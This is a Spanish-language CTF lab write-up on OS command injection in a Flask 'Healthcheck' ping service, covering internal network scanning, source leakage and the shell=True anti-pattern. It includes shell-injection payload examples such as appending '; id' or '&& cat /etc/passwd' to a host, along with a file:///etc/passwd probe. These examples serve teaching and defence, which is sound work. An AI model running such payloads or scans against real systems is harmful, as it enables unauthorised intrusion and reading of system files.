

# Healthcheck

| Campo | Valor |
|-------|-------|
| **Categoría** | Web Hacking |
| **Dificultad** | 🔴 Avanzado |
| **Herramientas** | curl, bash, análisis de código Python |
| **Concepto clave** | OS Command Injection — `subprocess` con `shell=True` |
| **TTP** | Command and Scripting Interpreter (T1059) |

## Enunciado

> Obtain the server's flag.

**Infraestructura del ejercicio:**

| Rol | IP | Puerto | Credenciales |
|-----|----|--------|--------------|
| Aplicación web (`p1`) | `192.168.200.100` | 3000 | — |
| Servidor de archivos (`fileserver`) | `192.168.200.200` | 80 | — |
| Máquina de trabajo (Debian 12) | `192.168.200.51` | — | asignadas por INICTEL |

---

## Escenario

Un CTF suele soltarte en medio de la acción sin decirte cómo llegaste ahí. Antes de tocar
comandos, vale la pena situar este ejercicio en una historia realista — porque el valor no
está solo en capturar el flag, sino en entender **en qué momento de un ataque real harías
esto**.

Imagina una empresa cualquiera. Un empleado abre un adjunto de un correo de *phishing* y, sin
saberlo, le da al atacante una sesión en su equipo: la **máquina de trabajo `192.168.200.51`**,
un host Linux dentro de la red interna. El atacante ya está *dentro*, pero en un rincón sin
valor: una workstation de usuario. Su objetivo real —servidores, datos, credenciales— está más
adentro. Lo que hará desde aquí es **reconocimiento interno** y **movimiento lateral**: mirar
qué otros hosts alcanza, qué servicios corren, y cuál de ellos tiene una grieta que lo lleve
más lejos.

**Ahí es donde tomamos el hilo de este CTF: ya tenemos ese punto de apoyo (*foothold*) en la
workstation, y desde él pivotaremos.** El *ping sweep*, el escaneo de puertos y todo lo que
sigue es, exactamente, lo que un adversario haría en la fase de *Actions on Objectives* de la
cadena de ataque:



Las fases 1 a 6 de la **Cyber Kill Chain** (el modelo de Lockheed Martin: `Reconnaissance →
Weaponization → Delivery → Exploitation → Installation → Command & Control`) ya ocurrieron: así
llegó el atacante a la workstation. Nosotros arrancamos en la fase 7, **Actions on Objectives**,
con la workstation como base de operaciones.

:::note[Escenario representativo, no un incidente real]

La historia del phishing es un marco pedagógico para darle contexto operativo al ejercicio —
no un ataque documentado concreto. Pero las técnicas sí son reales y están catalogadas en
**MITRE ATT&CK**: el recon interno, el movimiento lateral y —lo que explotaremos más
adelante— la ejecución de comandos vía una app vulnerable (`T1059 — Command and Scripting
Interpreter`). El escenario es ficticio; los TTPs, no.

:::

---

## Reconocimiento

### Paso 0 — Descubrir la red

Empezamos sin conocer las IPs ni los puertos de los servidores del ejercicio: solo sabemos
que nuestra máquina de trabajo es `192.168.200.51`, así que el resto de la red es
`192.168.200.0/24`.

**Hosts vivos** — un *ping sweep* en paralelo, guardado a un archivo para reutilizarlo:

```bash
seq 1 254 | xargs -P64 -I{} sh -c 'ping -c1 -W1 192.168.200.{} >/dev/null 2>&1 && echo 192.168.200.{}' | sort -t. -k4 -n > hosts.txt
cat hosts.txt
```

```
192.168.200.2
192.168.200.51
192.168.200.100
192.168.200.200
```

- `192.168.200.2` — la puerta de enlace de la red (router).
- `192.168.200.51` — nuestra propia máquina de trabajo.
- `192.168.200.100` y `192.168.200.200` — los dos candidatos.

<details>
<summary>🔍 Explica el comando — <code>ping sweep</code> en paralelo</summary>

```bash
seq 1 254 | xargs -P64 -I{} sh -c 'ping -c1 -W1 192.168.200.{} >/dev/null 2>&1 && echo 192.168.200.{}' | sort -t. -k4 -n > hosts.txt
```

Se lee de izquierda a derecha, pieza por pieza:

| Pieza | Qué hace |
|-------|----------|
| `seq 1 254` | Genera los números `1`…`254` (uno por línea): los últimos octetos de la `/24`. |
| <code>&#124;</code> | El *pipe* pasa esa lista de números a la entrada del siguiente comando. |
| `xargs -P64` | Toma cada línea de entrada y ejecuta un comando con ella; `-P64` corre **64 en paralelo**. |
| `-I{}` | Define `{}` como el hueco donde `xargs` inserta cada número. |
| `sh -c '…'` | Cada invocación abre un mini-shell para correr el `ping` con ese octeto. |
| `ping -c1 -W1` | **Un** paquete (`-c1`), esperando **máximo 1 s** (`-W1`). Sin límites, 254 pings colgados tardarían minutos. |
| `>/dev/null 2>&1` | Descarta la salida del `ping` (no nos interesa el detalle, solo si respondió). |
| `&& echo …` | El `&&` solo ejecuta el `echo` **si el `ping` tuvo éxito** → imprime la IP únicamente de los hosts vivos. |
| <code>&#124; sort -t. -k4 -n</code> | Ordena por el **4.º campo** (`-k4`) usando `.` como separador (`-t.`), numéricamente (`-n`) → IPs en orden. |
| `> hosts.txt` | Guarda el resultado en un archivo para **reutilizarlo** en el escaneo de puertos. |

**La intuición (el patrón que se repite):** *generar candidatos → paralelizar → quedarse solo
con los que responden → ordenar*. Casi todo el recon con one-liners sigue esta forma. `xargs -P`
es el motor: convierte un bucle secuencial lento en un abanico paralelo.

**Ejercicio de refuerzo:** ¿cómo adaptarías el comando para barrer la red `10.10.5.0/24`? ¿Y
si quisieras el doble de velocidad — qué número cambias, y qué riesgo tiene subirlo demasiado?
(Pista: más paralelismo = más carga en tu propia máquina y más "ruido" en la red).

</details>

**Puertos abiertos** — escaneamos cada host descubierto (leyendo `hosts.txt`) con `/dev/tcp`
de bash, sin instalar nada:

```bash
while read -r h; do
  seq 1 10000 | xargs -P200 -I{} bash -c "timeout 1 bash -c 'echo >/dev/tcp/$h/{}' 2>/dev/null && echo $h:{}"
done < hosts.txt | sort -t: -k1,1 -k2,2n
```

```
192.168.200.2:53
192.168.200.51:22
192.168.200.51:80
192.168.200.100:3000
192.168.200.200:80
```

<details>
<summary>🔍 Explica el comando — escaneo de puertos con <code>/dev/tcp</code></summary>

```bash
while read -r h; do
  seq 1 10000 | xargs -P200 -I{} bash -c "timeout 1 bash -c 'echo >/dev/tcp/$h/{}' 2>/dev/null && echo $h:{}"
done < hosts.txt | sort -t: -k1,1 -k2,2n
```

| Pieza | Qué hace |
|-------|----------|
| `while read -r h; … done < hosts.txt` | Recorre el archivo **línea por línea**: cada `h` es una de las IPs vivas que descubrimos. Reutiliza el trabajo del paso anterior en vez de re-escribir las IPs a mano. |
| `seq 1 10000` | Genera los puertos `1`…`10000` a probar en cada host. |
| `xargs -P200 -I{}` | Prueba **200 puertos en paralelo** (`{}` = cada número de puerto). |
| `echo >/dev/tcp/$h/{}` | **El truco clave.** `/dev/tcp/HOST/PUERTO` es un pseudo-archivo de **bash**: abrirlo *intenta una conexión TCP*. Si el puerto está abierto, tiene éxito; si está cerrado, falla. |
| `timeout 1` | Corta el intento tras 1 s — sin esto, cada puerto cerrado se quedaría colgado esperando. |
| `2>/dev/null && echo $h:{}` | Silencia los errores de los puertos cerrados; el `&&` imprime `IP:puerto` **solo si la conexión abrió**. |
| `sort -t: -k1,1 -k2,2n` | Ordena por IP (`-k1`) y luego por puerto numérico (`-k2n`), usando `:` como separador. |

**Por qué `bash -c` y no `sh -c`:** `/dev/tcp` **es una característica de bash**, no existe en
`sh` ni en POSIX. Si el escaneo corriera bajo `sh`, `/dev/tcp` sería un archivo inexistente y
todo fallaría. Por eso el comando envuelve explícitamente el intento en `bash -c`.

**El patrón, otra vez:** *tomar la lista del paso anterior → generar candidatos (puertos) →
paralelizar → quedarse con los que responden → ordenar*. Es el mismo esqueleto que el ping
sweep; solo cambia qué "abre" el candidato (aquí, una conexión TCP en vez de un `ping`).

:::tip[Con `nmap` instalado es más simple]
`nmap -p- --min-rate 2000 -iL hosts.txt` hace lo mismo (`-iL` lee los hosts del archivo).
Ojo: **el puerto 3000 no está en el top-1000 que nmap escanea por defecto** — un `nmap 192.168.200.100`
a secas *se perdería la app*. Por eso barremos el rango completo (`-p-` o `seq 1 10000`), nunca
solo los puertos comunes. La versión con `/dev/tcp` sirve cuando no puedes instalar nmap.
:::

**Ejercicio de refuerzo:** el `while read` recorre TODOS los hosts de `hosts.txt`, incluida
nuestra propia máquina (`.51`). ¿Cómo excluirías tu propia IP del escaneo? (Pista: `grep -v`
sobre `hosts.txt` antes del bucle).

</details>

- `192.168.200.2:53` — DNS del router, no es objetivo.
- `192.168.200.51:22` y `:80` — nuestra propia máquina (SSH y un servidor local).
- **`192.168.200.100:3000`** — un servicio web en un puerto **no estándar**: candidato principal.
- **`192.168.200.200:80`** — un servidor HTTP.

Ahora sí tenemos, obtenidos por nosotros mismos, los dos objetivos: `100:3000` y `200:80`.

**¿Por qué un puerto no estándar llama la atención?** Los servicios "normales" viven en puertos
conocidos: web en 80/443, SSH en 22, DNS en 53. Un servicio en un puerto raro como **3000**
significa que *alguien lo puso ahí a propósito* — y eso es interesante en los dos mundos:

- **En un pentest real:** los puertos no estándar suelen alojar aplicaciones de desarrollo,
  paneles internos o de administración, APIs improvisadas — software que a menudo está **menos
  endurecido** que la web pública principal (sin WAF, con debug activado, sin revisar). Es
  justo donde aparecen las grietas.
- **En un CTF:** el servicio del reto casi siempre se despliega en un puerto llamativo. Un
  `:3000` abierto es una señal directa de "el ejercicio vive aquí".

En ambos casos la conclusión es la misma: un puerto abierto fuera de lo común **merece
inspección prioritaria**.

:::caution[Punto ciego del pipeline]
Escaneamos puertos **solo** sobre los hosts que el ping sweep encontró (`hosts.txt`). Si un
host sirviera HTTP pero **bloqueara ICMP**, el ping sweep no lo vería y nunca llegaríamos a
escanear sus puertos. Aquí ICMP está permitido, pero en una red real conviene complementar con
un barrido de puertos directo (sin depender del ping) sobre todo el rango.
:::

### Paso 1 — Fingerprinting del stack

*Fingerprinting* (tomar la "huella digital") es identificar qué software corre detrás de un
servicio antes de atacarlo. Con los dos objetivos, averiguamos qué hay en cada uno:

```bash
curl -sI http://192.168.200.100:3000/
```

```
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.13.3
Content-Type: text/html; charset=utf-8
```

<details>
<summary>🔍 Explica el comando — <code>curl -sI</code></summary>

| Pieza | Qué hace |
|-------|----------|
| `curl` | Cliente HTTP de línea de comandos: hace peticiones y muestra la respuesta. |
| `-s` | *Silent*: oculta la barra de progreso y los mensajes de estado — deja la salida limpia. |
| `-I` | Pide **solo las cabeceras** (una petición HTTP `HEAD`), no el cuerpo de la página. |

**El porqué:** en *fingerprinting* miramos las cabeceras **primero** porque son pequeñas y
suelen delatar el software en la cabecera `Server:` — sin necesidad de descargar todo el HTML.
Es la forma más rápida y silenciosa de saber "¿qué corre aquí?" antes de profundizar.

**Ejercicio de refuerzo:** ¿qué comando usarías si quisieras ver **además** el cuerpo de la
página junto con las cabeceras? (Pista: `curl -i` en minúscula hace justo eso; compara `-I`
mayúscula vs `-i` minúscula).

</details>

**Leyendo la huella — ¿qué nos dice ese `Server:`?**

- **Qué es "el stack".** Es la pila de capas de software que sostiene la app: el **lenguaje**
  (aquí Python), el **framework** web (Flask) y el **servidor** que atiende las conexiones
  (Werkzeug). Identificar el stack es el objetivo del fingerprinting.
- **Cómo lo encontramos.** La cabecera `Server: Werkzeug/3.1.3 Python/3.13.3` lo dice
  directamente. No siempre es tan explícita, pero cuando lo es, es un regalo.
- **Qué es Werkzeug/Flask.** **Flask** es un framework web de Python; **Werkzeug** es su
  servidor de desarrollo incorporado. Verlo en producción es en sí una señal: es un servidor
  pensado para *desarrollo*, no para exponerse a atacantes.
- **Python, no Node.js — por qué importaba.** El puerto `3000` es el default de **Express**
  (el framework web de **Node.js**), así que a primera vista uno pensaría "esto es Node". La
  cabecera lo desmiente: es Python. Confiar en el puerto habría llevado a un modelo mental
  equivocado.
- **Por qué el stack decide todo lo demás.** Cada stack tiene su propio catálogo de
  vulnerabilidades. Saber que es Flask/Python **poda el árbol de vectores**: descartamos lo que
  no aplica y priorizamos lo que sí.
  - ❌ **Descartamos webshells `.php`**: PHP no se ejecuta en un servidor Python. Subir un
    `shell.php` no serviría de nada — nadie lo interpretaría.
  - ✅ **Ponemos en el radar** lo típico de Flask: **Jinja2 SSTI** (inyección de plantillas),
    la **consola del debugger de Werkzeug** (RCE si `debug=True`) y **command injection**.

El servidor de archivos revela otra cosa:

```bash
curl -sI http://192.168.200.200/
```

```
HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.11.10
```

Es `python -m http.server` con **listado de directorios** activo. Guardamos ese dato: un
listado abierto suele filtrar código fuente.

### Paso 2 — Encontrar el formulario

**Meta de este paso:** localizar la *superficie de ataque* — el punto donde la app recibe
datos nuestros — y entender **cómo enviarle esos datos**. En concreto, terminaremos sabiendo
que existe un `GET /send?url=<valor>` cuyo `url` controlamos. Ese parámetro será la puerta por
la que entraremos.

Sabemos que en `:3000` hay una app Flask. Ahora necesitamos ver **qué hace** — su interfaz.
Descargamos el cuerpo (HTML) de la página principal con `curl`:

```bash
curl -s http://192.168.200.100:3000/
```

<details>
<summary>🔍 ¿Qué es <code>curl</code> y para qué sirve?</summary>

`curl` es un **cliente HTTP de línea de comandos**: hace peticiones a un servidor y te muestra
la respuesta, sin navegador. Es la navaja suiza para hablar con la web desde la terminal.

Sirve para mucho más que descargar una página:

- **Descargar** páginas o archivos (`curl -O http://.../archivo.zip`).
- **Hablar con APIs** — enviar y recibir JSON.
- **Enviar formularios** (peticiones GET o POST).
- **Manipular la petición**: cabeceras (`-H`), cookies (`-b`), autenticación (`-u`), método
  (`-X`).

**¿Y qué es un "request" o un "POST"?** Toda interacción web es un **mensaje** que tu cliente
le manda al servidor — un *request* (petición) HTTP:

- **GET** = *"dame esto"* — pedir una página o un recurso. Los datos van en la URL.
- **POST** = *"toma estos datos y procésalos"* — enviar un formulario de login, subir algo,
  crear un registro. Los datos van en el cuerpo de la petición.

Tu navegador hace estos requests todo el tiempo, por debajo, cuando haces clic o envías un
formulario. **`curl` te deja hacerlos tú, a mano** — eligiendo el método, los parámetros y las
cabeceras con total libertad. Ahí está su valor para el hacking: puedes enviar peticiones que
un navegador o un formulario "normal" **nunca** enviarían (valores raros, cabeceras
manipuladas), que es exactamente lo que dispara un bug.

</details>

La página completa trae mucho ruido (todo el CSS de estilo). Para quedarnos solo con lo
estructural, filtramos las etiquetas que nos interesan:

```bash
curl -s http://192.168.200.100:3000/ | grep -iE '<form|action=|<input|<button'
```

<details>
<summary>🔍 ¿De dónde sale la intuición de buscar justo esas etiquetas?</summary>

Buena pregunta — y sí, exactamente: **viene de conocer HTML** (el lenguaje de marcado del
front-end) y de saber cómo **HTTP** convierte un formulario en una petición. No es magia ni
adivinación; es leer el HTML como un mapa.

Una página web puede tener miles de líneas, pero la **superficie donde el usuario mete datos**
vive siempre en un puñado de etiquetas conocidas:

| Etiqueta / atributo | Por qué la buscas |
|---------------------|-------------------|
| `<form>` | Define un envío de datos: dónde empieza la interacción. |
| `<input>`, `<textarea>`, `<select>` | Los campos que el usuario **controla** — la entrada. |
| `action=`, `method=`, `name=` | A dónde va la petición, con qué método, y cómo se llama cada dato. |
| `<button>` | Lo que dispara el envío. |

Filtrar por esas etiquetas = ir directo a la pregunta *"¿dónde puede un usuario introducir
datos, y a dónde se envían?"* — descartando todo el CSS y el maquetado que no importa.

Con más experiencia el set crece: `<a href=…>` (rutas y enlaces ocultos), `<script src=…>`
(JS y endpoints), y hasta los comentarios `<!-- … -->` (que a veces filtran credenciales o
rutas internas). La habilidad transferible es **leer HTML como un inventario de superficie de
ataque, no como una página bonita.**

**Ejercicio de refuerzo:** si quisieras encontrar rutas o enlaces ocultos en el HTML en vez de
formularios, ¿qué término agregarías al `grep`? (Pista: los enlaces se declaran con
`<a href="...">`).

</details>

Eso aísla el formulario:

```html
<form action="/send" method="GET">
  <h2>SEND HEALTHCHECK</h2>
  <input type="text" name="url" placeholder="ex) https://www.google.com">
  <button type="submit">Send</button>
</form>
```

<details>
<summary>🔍 Explica la estructura — el <code>&lt;form&gt;</code></summary>

Un formulario HTML es la instrucción que le dice al navegador **cómo armar una petición** cuando
el usuario pulsa el botón. Cada atributo importa:

| Parte | Qué significa |
|-------|---------------|
| `<form action="/send" ...>` | `action` es **la ruta a la que se envía**: al pulsar Send, la petición va a `/send`. |
| `method="GET"` | El método HTTP. Con **GET**, los datos del formulario viajan **en la URL** como *query string* (`?campo=valor`), a la vista. (Con `POST` irían en el cuerpo de la petición). |
| `<input ... name="url">` | Un campo de texto. Su atributo `name` es la **clave** del dato: lo que escribas se envía como `url=<tu_texto>`. |
| `placeholder="ex) https://..."` | Solo un texto de ayuda gris; no se envía. Pero es una **pista**: sugiere que el campo espera una URL. |
| `<button type="submit">` | Dispara el envío del formulario. |

**Cuidado con la palabra "método".** Aquí `/send` es una **ruta** (un *path*, una dirección en
el servidor) — no la confundas con:

- el **método HTTP** (GET/POST): el *verbo* de la petición, lo que indica `method="GET"`;
- un **método/función** de programación (una función en el código).

Esos tres conceptos —la **ruta** (`/send`), el **método HTTP** (`GET`) y la **función**
(`send()`)— conviven sin contradicción: la petición usa el método **GET** para pedir la ruta
**`/send`**, y el servidor Flask ejecuta la **función** que tiene registrada para esa ruta. En
este reto esa función se llama, casualmente, `send()` (lo veremos en `app.py`) — pero podría
llamarse cualquier cosa; el nombre de la ruta y el de la función son independientes.

**La conclusión clave — qué pasa al pulsar *Send*.** El navegador toma los tres atributos
(`action`, `method`, `name`) y arma una URL: la ruta del `action`, un `?`, y luego
`nombre=valor` por cada campo. Con un ejemplo concreto: si escribes `https://google.com` en el
campo y pulsas *Send*, el navegador pide esta dirección:

```
http://192.168.200.100:3000/send?url=https://google.com
```

En la jerga de HTTP, esa misma petición se anota de forma abreviada como
`GET /send?url=...` — es decir: **método** GET, **ruta** `/send`, y **query string**
`?url=<valor>`. Las dos formas describen lo mismo: la primera es la URL completa que ves en el
navegador; la segunda, cómo se nombra la petición en HTTP.

Y aquí está el porqué de todo lo que sigue: **si enviar el formulario es solo pedir una URL con
un parámetro, no necesitamos el navegador ni el formulario.** Podemos escribir esa URL a mano y
dispararla con `curl`:

```bash
curl -s "http://192.168.200.100:3000/send?url=https://google.com"
```

Así controlamos el valor de `url` con total libertad — incluidos valores que un formulario
"normal" nunca enviaría. El formulario es solo una fachada amable sobre un `GET /send?url=`.

**Ejercicio de refuerzo:** si el formulario usara `method="POST"` en vez de `GET`, ¿seguirías
pudiendo probarlo con `curl`? ¿Qué opción de `curl` necesitarías para enviar el dato en el
cuerpo? (Pista: `curl -d "url=..."`).

</details>

Podemos comprobarlo sin escribir código: basta pedir esa URL directamente en el navegador del
workstation.


Fíjate en la **barra de direcciones**: es exactamente la URL que dedujimos del formulario
(`…/send?url=https://google.com`), tecleada a mano, sin tocar el campo ni el botón. El servidor
la procesó igual y respondió:

```
ping: google.com: Temporary failure in name resolution
```

Dos pistas caen de regalo: la app **ejecuta `ping`** con lo que le pasamos (no descarga la
página), y la red **no resuelve nombres externos** (está aislada, sin internet). Ese
comportamiento lo confirmamos y explotamos en el Paso 3.

:::note[¿Navegador o `curl`? Los dos hacen la misma petición]

El navegador y `curl` envían **exactamente el mismo** `GET /send?url=…` — la captura de arriba
lo demuestra. La diferencia es el control: el navegador es cómodo para *ver* que la superficie
existe, pero escapa y limita lo que puedes escribir. `curl` te deja enviar **cualquier** valor
(caracteres raros, inyecciones), automatizar y ver la respuesta cruda. Por eso de aquí en
adelante atacamos con `curl`: el navegador nos sirvió para **confirmar**, `curl` nos sirve para
**explotar**.

:::

En resumen: la app se llama **Healthcheck** y expone un endpoint `GET /send` con un solo
parámetro, `url`. Ese parámetro, controlable por nosotros, es la superficie de ataque. Los
Pasos 0–2 fueron reconocimiento (qué hosts, qué software, qué interfaz); a partir del Paso 3
empieza el ataque.

### Paso 3 — Observar el comportamiento real

La hipótesis inicial es SSRF (el campo pide una URL). La probamos:

<details>
<summary>🔍 ¿Qué es SSRF (Server-Side Request Forgery)? — explicado simple</summary>

**En una frase:** normalmente *tú* le pides cosas a un servidor; en SSRF **engañas al servidor
para que sea él quien pida algo por ti**, hacia un destino que tú eliges.

**La analogía.** Imagina un edificio con un recepcionista (el servidor) tras una puerta con
llave. Tú, desde afuera, no puedes entrar. Pero hay un buzón: *"escribe una dirección y el
recepcionista irá a buscar el documento de ahí y te lo trae"*. La idea es que escribas
direcciones públicas… pero tú escribes *"ve a la oficina del jefe, **aquí adentro**, y tráeme
el archivo del escritorio"*. El recepcionista —que **sí** tiene acceso adentro— obedece y te
trae documentos internos que jamás alcanzarías desde la calle.

**Por qué es peligroso.** El servidor vive **dentro** de la red, detrás del firewall. Puede
hablar con cosas que tú no:

- `http://localhost/admin` → un panel de administración interno.
- `http://169.254.169.254/…` → metadatos de la nube (AWS/GCP) → **robar credenciales cloud**.
- `http://192.168.0.50/` → otros servidores internos.
- a veces `file:///etc/passwd` → leer archivos locales del servidor.

Tú apuntas, el servidor dispara. Es tu **proxy involuntario** hacia la red interna. Aparece en
cualquier función tipo *"danos una URL y la procesamos"*: previsualizar una imagen por URL,
webhooks, "genera un PDF desde esta web", importadores.

**¿Y por qué este reto NO era SSRF?** El campo pedía una URL, así que **olía** a SSRF. Pero al
probarlo (abajo), el servidor **no visitó** la URL — le hizo `ping`. La diferencia está en la
respuesta:

| | SSRF | Nuestro Healthcheck |
|---|---|---|
| Qué hace con tu URL | La **visita** (petición HTTP) | Le hace **`ping`** (comando del SO) |
| Qué te devuelve | El **contenido** de la página | La **salida de `ping`** |
| Vector | SSRF | OS Command Injection |

> El ejercicio **My WebView** de este mismo curso **sí** es SSRF puro — compáralos: mismo
> disfraz (un campo que pide una URL), vulnerabilidad distinta. La apariencia engaña; el
> comportamiento manda.

</details>

```bash
curl -s "http://192.168.200.100:3000/send?url=http://192.168.200.200/"
```

La respuesta en el bloque de resultado:

```
Execution Result
PING 192.168.200.200 (192.168.200.200) 56(84) bytes of data.
64 bytes from 192.168.200.200: icmp_seq=1 ttl=64 time=3.94 ms
--- 192.168.200.200 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss
```

Esto **no es SSRF** — el servidor no descargó una página, ejecutó `ping` contra el host de
la URL. La aplicación es un wrapper de `ping`. Dos pruebas más afinan el modelo:

```bash
curl -s "http://192.168.200.100:3000/send?url=file:///etc/passwd"   # -> "Invalid"
curl -s "http://192.168.200.100:3000/send?url=http://127.0.0.1:3000/" # -> ping: 127.0.0.1:3000: Name or service not known
```

- `file://` es rechazado con `Invalid` → hay un filtro basado en el esquema.
- `http://127.0.0.1:3000/` pasa el host `127.0.0.1:3000` tal cual a `ping` → confirma que el
  host de la URL se inyecta en un comando del sistema.

**¿Por qué esto es OS Command Injection y no SSRF?** La diferencia está en *qué hace el
servidor con nuestra entrada*:

- En **SSRF**, el servidor tomaría nuestra URL y haría una **petición HTTP** hacia ella —
  actuaría como un navegador que visita la dirección. Nos devolvería el **contenido** de esa
  página.
- En **OS Command Injection**, el servidor toma nuestra entrada y la incrusta dentro de un
  **comando del sistema operativo** — una línea de texto como `ping <nuestra_entrada>` — y se
  la entrega al *shell* del sistema para que la ejecute. Nos devuelve la **salida de ese
  comando**.

Aquí vimos la salida de `ping`, no el contenido de una página web. Eso delata que el servidor
está **armando una línea de shell** —algo como `ping <lo que enviamos> …`— y ejecutándola en su
máquina.

> "Construir una línea de shell con nuestra entrada" significa exactamente eso: el servidor
> concatena texto fijo (`ping `) con nuestro dato para formar un comando, y se lo pasa al
> intérprete de comandos (`/bin/sh`) para que lo corra.

Y ahí está el peligro: si nuestra entrada cae **dentro** de esa línea de comando, quizá podamos
**colar comandos extra** aprovechando la sintaxis del shell (un `;`, un `|`, un `&&`). El
vector ya no es "hacer que el servidor visite una URL" (SSRF), sino "hacer que el servidor
**ejecute comandos** por nosotros" (OS Command Injection). Confirmar esa sospecha —y ver cómo
se arma exactamente el comando— es lo que haremos leyendo el código en el Paso 4.

### Paso 4 — Filtrar el código fuente

El listado de directorios del fileserver nos deja leer la aplicación completa:

```bash
curl -s http://192.168.200.200/1/eng/for_user/app.py
```

Pasamos de caja negra a caja blanca. Con la fuente, el punto de inyección deja de ser una
suposición.

<details>
<summary>🔍 ¿No es demasiado fácil que el código esté ahí para leerlo?</summary>

A primera vista huele a CTF "flojo": ¿el código de la aplicación, servido tal cual en un
directorio abierto? En la vida real nadie deja `app.py` tan a la vista… ¿o sí?

**Sí — solo que de formas más sutiles.** El reto lo pone descaradamente para que la lección sea
clara, pero el fenómeno de fondo —**exposición de código fuente por mala configuración**
(*source disclosure*)— es de los hallazgos más comunes en pentests reales. Lo que aquí es un
file server con listado abierto, en producción aparece como:

- Una carpeta **`.git/`** desplegada por accidente junto al sitio → con una herramienta como
  `git-dumper` reconstruyes **todo** el repositorio: código, historial, y a veces credenciales
  olvidadas en commits viejos.
- **Backups y temporales** que dejan los editores o los despliegues: `app.py~`, `.app.py.swp`,
  `app.py.bak`, `config.php.old`.
- **Listado de directorios** activado sin querer (Apache con `Options +Indexes`, o alguien que
  dejó corriendo un `python -m http.server` "un momentito").
- Un servidor mal configurado que **entrega `.py` o `.env` como texto plano** en vez de
  ejecutarlos.
- Buckets S3 públicos, artefactos de CI, imágenes de Docker con el código dentro.

Todos terminan en lo mismo: **el atacante consigue leer la fuente.** El CTF comprime todos esos
casos en uno solo y grosero; la realidad los reparte en canales más discretos — pero el
resultado es idéntico.

Así que no lo leas como *"el reto es fácil"*, léelo como *"esto pasa de verdad, solo que
disfrazado"*. La situación se **extrapola**:

- **Ofensiva:** en todo objetivo, busca fuente expuesta (`.git/`, backups, listados abiertos).
  Encontrarla convierte caja negra en caja blanca — de *adivinar* el bug a *leerlo*.
- **Defensiva:** el código fuente es secreto por diseño. Un `.git` o un backup filtrado le
  entrega al atacante el mapa completo de tus vulnerabilidades.

</details>

---

## Teoría

### ¿Qué es OS Command Injection?

**OS Command Injection** ocurre cuando una aplicación construye un comando del sistema
operativo concatenando entrada del usuario, y esa entrada se interpreta como **código** —parte
de la sintaxis del shell— en vez de como **datos** (un simple valor de texto). El atacante
inserta metacaracteres del shell (`;`, `|`, `&&`, `` ` ``, `$()`) para ejecutar comandos
arbitrarios con los privilegios del proceso web.

Esa confusión entre **código y datos** es el corazón de casi todas las inyecciones (SQLi, XSS,
command injection, SSTI): la vulnerabilidad nace cuando algo que debía ser un dato inerte
termina tratándose como una instrucción ejecutable.

**Un ejemplo para verlo.** Imagina una web con una herramienta de "hacer ping a un host". Por
dentro, el servidor arma el comando pegando lo que escribes:

```
comando = "ping " + entrada_del_usuario
```

Uso normal — escribes una IP:

```bash
# entrada: 8.8.8.8
ping 8.8.8.8            # el servidor corre esto. Todo bien.
```

Ahora un atacante escribe algo que **no** es una IP, sino una IP **seguida de sintaxis de
shell**:

```bash
# entrada: 8.8.8.8; id
ping 8.8.8.8; id        # el shell ve el ";" y ejecuta DOS comandos: ping, y luego id
```

El `;` no viajó como parte del host — el shell lo leyó como "aquí termina un comando, empieza
otro". El atacante acaba de ejecutar `id` en el servidor. Los **metacaracteres del shell** que
permiten esto:

| Metacarácter | Qué hace | Ejemplo (`ping <entrada>`) |
|--------------|----------|----------------------------|
| `;` | Ejecuta un comando y luego otro, pase lo que pase | `8.8.8.8; whoami` |
| <code>&#124;&#124;</code> | Ejecuta el segundo **solo si el primero falla** | <code>x &#124;&#124; whoami</code> |
| `&&` | Ejecuta el segundo **solo si el primero funciona** | `8.8.8.8 && cat /etc/passwd` |
| <code>&#124;</code> | *Pipe*: pasa la salida del primero al segundo | <code>8.8.8.8 &#124; base64</code> |
| `` $(…) `` o `` `…` `` | *Sustitución*: ejecuta lo de dentro y mete su salida ahí | `ping $(whoami)` |

Todos comparten la misma raíz: tu entrada, que debía ser **un dato** (un nombre de host), se
cuela como **sintaxis** que el shell obedece. Guarda este `;` en mente — es exactamente el que
usaremos contra Healthcheck.

### El anti-patrón: `subprocess` con `shell=True`

En Python, la diferencia entre seguro e inseguro es una sola flag:

```python
# VULNERABLE — shell=True interpreta el string completo como un comando de shell
command = f"ping {host} -c 1"
subprocess.Popen(command, shell=True)

# SEGURO — shell=False (default) + lista de argumentos:
# 'host' es SIEMPRE un solo argumento, nunca sintaxis de shell
subprocess.Popen(["ping", host, "-c", "1"])
```

Con `shell=True`, el string `ping 8.8.8.8;id -c 1` se ejecuta a través de `/bin/sh -c`, que
ve el `;` como separador de comandos y corre `id`. Con `shell=False` y una lista, `host`
vale literalmente `8.8.8.8;id` — un nombre de host inválido, no un comando.

### El código vulnerable, línea por línea

```python
def is_safe_input(host):
    safe_pattern = re.compile(r'^[a-zA-Z0-9_\-\.]+$')   # allowlist estricta
    return safe_pattern.match(host) is not None

def check_url(url):
    regex = re.compile(r'^(https?://)([^/]+)')   # host = todo hasta el primer "/"
    match = regex.match(url)
    if match:
        protocol = match.group(1)
        host = match.group(2)
        if protocol == 'https://':
            if is_safe_input(host):     # (1) la validación SOLO existe aquí
                return host
            else:
                return "Invalid"
        return host                     # (2) rama http:// -> devuelve host SIN validar
    else:
        return "Invalid"

def healthcheck(host):
    command = f"ping {host} -c 1"
    subprocess.Popen(command, shell=True, ...)   # (3) shell=True + interpolación cruda
```

Tres fallos encadenados:

1. **Validación en la rama equivocada.** `is_safe_input` — una allowlist que bloquea todos
   los metacaracteres del shell — solo se ejecuta cuando el protocolo es `https://`.
2. **Bypass trivial por protocolo.** Con `http://`, la función devuelve el host **sin
   ninguna validación**. El atacante simplemente elige `http://` en vez de `https://`.
3. **Ejecución con `shell=True`.** El host no validado se interpola en `ping {host} -c 1`
   y se pasa a un shell.

<details>
<summary>🔍 ¿Qué es una <em>allowlist</em>? (y por qué la de este código era correcta)</summary>

Una **allowlist** (lista blanca / lista de permitidos) es un enfoque de validación donde
defines **exactamente lo que SÍ se permite** y rechazas **todo lo demás** por defecto. Su
opuesto es la **blocklist** (lista negra): enumeras lo prohibido y dejas pasar el resto.

